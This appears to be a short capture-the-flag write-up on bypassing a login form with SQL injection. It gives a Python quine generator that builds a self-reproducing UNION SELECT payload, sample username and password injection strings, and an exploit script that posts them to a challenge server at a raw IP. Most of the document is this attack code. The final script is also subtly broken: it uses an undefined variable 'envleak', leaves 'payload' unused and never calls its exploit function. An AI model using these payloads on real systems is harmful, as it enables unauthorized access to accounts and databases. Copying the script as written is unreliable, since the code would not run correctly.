 
#### using the help of [DUCTF SQLi Challenge Writeup](https://www.justinsteven.com/posts/2022/09/27/ductf-sqli2022/) 

here is a quine geneator
```python
def quine(data):
    data = data.replace('$$', "REPLACE(REPLACE($$,CHAR(34),CHAR(39)),CHAR(36),$$)")
    blob = data.replace('$$', '"$"').replace("'", '"')
    data = data.replace('$$', "'" + blob + "'")
    print(data)
```

modify it to use `"`  instead of `'`
```python
def quine(data):
    data = data.replace('$$', "REPLACE(REPLACE(REPLACE($$,CHAR(39),CHAR(34)),CHAR(36),$$), CHAR(92), CHAR())")
    blob = data.replace("'", '"').replace('$$', "'$'")
    data = data.replace('$$', f'"{blob}"')
    return data
```

##### if we checked the code back we can see the result of the username value if our payload succeeded , so we will inject the password and if succeded we will see the value of our username ,  the payload will be something like
```python
username = testpayload"\'
```
```python
password = f'UNION SELECT CHAR({','.join(str(ord(c)) for c in username)}), $$;-- -'
```

Where `$$` should be `$password`, returning the `$password` itself.

```python
#!/usr/bin/env python3
import requests


def quine(data):
    data = data.replace('$$', "REPLACE(REPLACE(REPLACE($$,CHAR(39),CHAR(34)),CHAR(36),$$), CHAR(92), CHAR())")
    blob = data.replace("'", '"').replace('$$', "'$'")
    data = data.replace('$$', f'"{blob}"')
    return data


def exploit():

    payload = "testttt"
    username = envleak + "\"'"


    password = f" UNION SELECT CHAR({','.join(str(ord(c)) for c in username)}), $$;-- -"
    password = quine(password)


    r = requests.post(url="http://139.144.184.115:1337/login",
                      data={
                          "username": username,
                          "password": password
                      })


    print(r.text)
```